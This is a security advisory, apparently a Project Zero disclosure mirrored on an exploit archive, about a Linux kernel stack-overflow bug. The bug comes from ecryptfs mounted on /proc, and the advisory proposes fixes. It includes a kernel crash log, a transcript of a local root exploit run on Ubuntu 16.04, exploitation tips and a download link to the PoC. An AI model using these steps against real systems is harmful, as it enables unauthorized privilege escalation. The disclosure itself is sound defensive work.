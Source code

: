 Source: https://bugs.chromium.org/p/project-zero/issues/detail?id=836

Stacking filesystems, including ecryptfs, protect themselves against
deep nesting, which would lead to kernel stack overflow, by tracking
the recursion depth of filesystems. E.g. in ecryptfs, this is
implemented in ecryptfs_mount() as follows:

	s->s_stack_depth = path.dentry->d_sb->s_stack_depth + 1;

	rc = -EINVAL;
	if (s->s_stack_depth > FILESYSTEM_MAX_STACK_DEPTH) {
		pr_err("eCryptfs: maximum fs stacking depth exceeded\n");
		goto out_free;
	}


The files /proc/$pid/{mem,environ,cmdline}, when read, access the
userspace memory of the target process, involving, if necessary,
normal pagefault handling. If it was possible to mmap() them, an
attacker could create a chain of e.g. /proc/$pid/environ mappings
where process 1 has /proc/2/environ mapped into its environment area,
process 2 has /proc/3/environ mapped into its environment area and so
on. A read from /proc/1/environ would invoke the pagefault handler for
process 1, which would invoke the pagefault handler for process 2 and
so on. This would, again, lead to kernel stack overflow.


One interesting fact about ecryptfs is that, because of the encryption
involved, it doesn't just forward mmap to the lower file's mmap
operation. Instead, it has its own page cache, maintained using the
normal filemap helpers, and performs its cryptographic operations when
dirty pages need to be written out or when pages need to be faulted
in. Therefore, not just its read and write handlers, but also its mmap
handler only uses the lower filesystem's read and write methods.
This means that using ecryptfs, you can mmap [decrypted views of]
files that normally wouldn't be mappable.

Combining these things, it is possible to trigger recursion with
arbitrary depth where:

a reading userspace memory access in process A (from userland or from
    copy_from_user())
causes a pagefault in an ecryptfs mapping in process A, which
causes a read from /proc/{B}/environ, which
causes a pagefault in an ecryptfs mapping in process B, which
causes a read from /proc/{C}/environ, which
causes a pagefault in an ecryptfs mapping in process C, and so on.

On systems with the /sbin/mount.ecryptfs_private helper installed
(e.g. Ubuntu if the "encrypt my home directory" checkbox is ticked
during installation), this bug can be triggered by an unprivileged
user. The mount helper considers /proc/$pid, where $pid is the PID of
a process owned by the user, to be a valid mount source because the
directory is "owned" by the user.

I have attached both a generic crash PoC and a build-specific exploit
that can be used to gain root privileges from a normal user account on
Ubuntu 16.04 with kernel package linux-image-4.4.0-22-generic, version
4.4.0-22.40, uname "Linux user-VirtualBox 4.4.0-22-generic #40-Ubuntu
SMP Thu May 12 22:03:46 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux".

dmesg output of the crasher:

```
[   80.036069] BUG: unable to handle kernel paging request at fffffffe4b9145c0
[   80.040028] IP: [<ffffffff810c9a33>] cpuacct_charge+0x23/0x40
[   80.040028] PGD 1e0d067 PUD 0 
[   80.040028] Thread overran stack, or stack corrupted
[   80.040028] Oops: 0000 [#1] SMP 
[   80.040028] Modules linked in: vboxsf drbg ansi_cprng xts gf128mul dm_crypt snd_intel8x0 snd_ac97_codec ac97_bus snd_pcm snd_seq_midi snd_seq_midi_event snd_rawmidi vboxvideo snd_seq ttm snd_seq_device drm_kms_helper snd_timer joydev drm snd fb_sys_fops soundcore syscopyarea sysfillrect sysimgblt vboxguest input_leds i2c_piix4 8250_fintek mac_hid serio_raw parport_pc ppdev lp parport autofs4 hid_generic usbhid hid psmouse ahci libahci e1000 pata_acpi fjes video
[   80.040028] CPU: 0 PID: 2135 Comm: crasher Not tainted 4.4.0-22-generic #40-Ubuntu
[   80.040028] Hardware name: innotek GmbH VirtualBox/VirtualBox, BIOS VirtualBox 12/01/2006
[   80.040028] task: ffff880035443200 ti: ffff8800d933c000 task.ti: ffff8800d933c000
[   80.040028] RIP: 0010:[<ffffffff810c9a33>]  [<ffffffff810c9a33>] cpuacct_charge+0x23/0x40
[   80.040028] RSP: 0000:ffff88021fc03d70  EFLAGS: 00010046
[   80.040028] RAX: 000000000000dc68 RBX: ffff880035443260 RCX: ffffffffd933c068
[   80.040028] RDX: ffffffff81e50560 RSI: 000000000013877a RDI: ffff880035443200
[   80.040028] RBP: ffff88021fc03d70 R08: 0000000000000000 R09: 0000000000010000
[   80.040028] R10: 0000000000002d4e R11: 00000000000010ae R12: ffff8802137aa200
[   80.040028] R13: 000000000013877a R14: ffff880035443200 R15: ffff88021fc0ee68
[   80.040028] FS:  00007fbd9fadd700(0000) GS:ffff88021fc00000(0000) knlGS:0000000000000000
[   80.040028] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[   80.040028] CR2: fffffffe4b9145c0 CR3: 0000000035415000 CR4: 00000000000006f0
[   80.040028] Stack:
[   80.040028]  ffff88021fc03db0 ffffffff810b4b83 0000000000016d00 ffff88021fc16d00
[   80.040028]  ffff880035443260 ffff8802137aa200 0000000000000000 ffff88021fc0ee68
[   80.040028]  ffff88021fc03e30 ffffffff810bb414 ffff88021fc03dd0 ffff880035443200
[   80.040028] Call Trace:
[   80.040028]  <IRQ> 
[   80.040028]  [<ffffffff810b4b83>] update_curr+0xe3/0x160
[   80.040028]  [<ffffffff810bb414>] task_tick_fair+0x44/0x8e0
[   80.040028]  [<ffffffff810b1267>] ? sched_clock_local+0x17/0x80
[   80.040028]  [<ffffffff810b146f>] ? sched_clock_cpu+0x7f/0xa0
[   80.040028]  [<ffffffff810ad35c>] scheduler_tick+0x5c/0xd0
[   80.040028]  [<ffffffff810fe560>] ? tick_sched_handle.isra.14+0x60/0x60
[   80.040028]  [<ffffffff810ee961>] update_process_times+0x51/0x60
[   80.040028]  [<ffffffff810fe525>] tick_sched_handle.isra.14+0x25/0x60
[   80.040028]  [<ffffffff810fe59d>] tick_sched_timer+0x3d/0x70
[   80.040028]  [<ffffffff810ef282>] __hrtimer_run_queues+0x102/0x290
[   80.040028]  [<ffffffff810efa48>] hrtimer_interrupt+0xa8/0x1a0
[   80.040028]  [<ffffffff81052fa8>] local_apic_timer_interrupt+0x38/0x60
[   80.040028]  [<ffffffff81827d9d>] smp_apic_timer_interrupt+0x3d/0x50
[   80.040028]  [<ffffffff81826062>] apic_timer_interrupt+0x82/0x90
[   80.040028]  <EOI> 
[   80.040028] Code: 0f 1f 84 00 00 00 00 00 66 66 66 66 90 48 8b 47 08 48 8b 97 78 07 00 00 55 48 63 48 10 48 8b 52 60 48 89 e5 48 8b 82 b8 00 00 00 <48> 03 04 cd 80 42 f3 81 48 01 30 48 8b 52 48 48 85 d2 75 e5 5d 
[   80.040028] RIP  [<ffffffff810c9a33>] cpuacct_charge+0x23/0x40
[   80.040028]  RSP <ffff88021fc03d70>
[   80.040028] CR2: fffffffe4b9145c0
[   80.040028] fbcon_switch: detected unhandled fb_set_par error, error code -16
[   80.040028] fbcon_switch: detected unhandled fb_set_par error, error code -16
[   80.040028] ---[ end trace 616e3de50958c35b ]---
[   80.040028] Kernel panic - not syncing: Fatal exception in interrupt
[   80.040028] Shutting down cpus with NMI
[   80.040028] Kernel Offset: disabled
[   80.040028] ---[ end Kernel panic - not syncing: Fatal exception in interrupt
```

example run of the exploit, in a VM with 4 cores, with Ubuntu 16.04 installed:

```
user@user-VirtualBox:/media/sf_vm_shared/crypt_endless_recursion/exploit$ ls
compile.sh  exploit.c  hello.c  suidhelper.c
user@user-VirtualBox:/media/sf_vm_shared/crypt_endless_recursion/exploit$ ./compile.sh 
user@user-VirtualBox:/media/sf_vm_shared/crypt_endless_recursion/exploit$ ls
compile.sh  exploit  exploit.c  hello  hello.c  suidhelper  suidhelper.c
user@user-VirtualBox:/media/sf_vm_shared/crypt_endless_recursion/exploit$ ./exploit
all spammers ready
recurser parent ready
spam over
fault chain set up, faulting now
writing stackframes
stackframes written
killing 2494
post-corruption code is alive!
children should be dead
coredump handler set. recurser exiting.
going to crash now
suid file detected, launching rootshell...
we have root privs now...
root@user-VirtualBox:/proc# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare),999(vboxsf),1000(user)
```

(If the exploit crashes even with the right kernel version, try
restarting the machine. Also, ensure that no program like top/htop/...
is running that might try to read process command lines. Note that
the PoC and the exploit don't really clean up after themselves and
leave mountpoints behind that prevent them from re-running without
a reboot or manual unmounting.)

Note that Ubuntu compiled their kernel with
CONFIG_SCHED_STACK_END_CHECK turned on, making it harder than it used
to be in the past to not crash the kernel while exploiting this bug,
and an overwrite of addr_limit would be useless because at the
time the thread_info is overwritten, there are multiple instances of
kernel_read() on the stack. Still, the bug is exploitable by carefully
aligning the stack so that the vital components of thread_info are
preserved, stopping with an out-of-bounds stack pointer and
overwriting the thread stack using a normal write to an adjacent
allocation of the buddy allocator.

Regarding the fix, I think the following would be reasonable:

 - Explicitly forbid stacking anything on top of procfs by setting its
   s_stack_depth to a sufficiently large value. In my opinion, there
   is too much magic going on inside procfs to allow stacking things
   on top of it, and there isn't any good reason to do it. (For
   example, ecryptfs invokes open handlers from a kernel thread
   instead of normal user process context, so the access checks inside
   VFS open handlers are probably ineffective - and procfs relies
   heavily on those.)

 - Forbid opening files with f_op->mmap==NULL through ecryptfs. If the
   lower filesystem doesn't expect to be called in pagefault-handling
   context, it probably shouldn't be called in that context.

 - Create a dedicated kernel stack cache outside of the direct mapping
   of physical memory that has a guard page (or a multi-page gap) at
   the bottom of each stack, and move the struct thread_info to a
   different place (if nothing else works, the top of the stack, above
   the pt_regs).
   While e.g. race conditions are more common than stack overflows in
   the Linux kernel, the whole vulnerability class of stack overflows
   is easy to mitigate, and the kernel is sufficiently complicated for
   unbounded recursion to emerge in unexpected places - or perhaps
   even for someone to discover a way to create a stack with a bounded
   length that is still too high. Therefore, I believe that guard
   pages are a useful mitigation.
   Nearly everywhere, stack overflows are caught using guard pages
   nowadays; this includes Linux userland, but also {### TODO ###}
   and, on 64-bit systems, grsecurity (using GRKERNSEC_KSTACKOVERFLOW).

Oh, and by the way: The `BUG_ON(task_stack_end_corrupted(prev))`
in schedule_debug() ought to be a direct panic instead of an oops. At
the moment, when you hit it, you get a recursion between the scheduler
invocation in do_exit() and the BUG_ON in the scheduler, and the
kernel recurses down the stack until it hits something sufficiently
important to cause a panic.

I'm going to send (compile-tested) patches for my first two fix
suggestions and the recursive oops bug. I haven't written a patch for
the guard pages mitigation - I'm not familiar enough with the x86
subsystem for that.


Notes regarding the exploit:

It makes an invalid assumption that causes it to require at least around 6GB of RAM.

It has a trivially avoidable race that causes it to fail on single-core systems after overwriting the coredump handler; if this happens, it's still possible to manually trigger a coredump and execute the suid helper to get a root shell.

The page spraying is pretty primitive and racy; while it works reliably for me, there might be influencing factors that cause it to fail on other people's machines.


Proof of Concept:
https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39992.zip